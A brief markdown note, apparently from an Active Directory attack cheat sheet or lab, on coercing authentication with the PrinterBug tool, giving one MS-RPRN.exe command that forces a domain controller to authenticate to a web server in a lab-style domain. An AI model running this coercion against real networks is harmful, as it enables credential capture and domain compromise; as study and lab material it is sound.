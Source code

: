 # Coerce authentication

Multiple methods allow to coerce an authentication from a server to an arbitrary machine.

## With PrinterBug

```powershell
> .\MS-RPRN.exe \\us-dc.us.techcorp.local \\us-web.us.techcorp.local
```

This will force an authentication from `us-dc` to `us-web`.
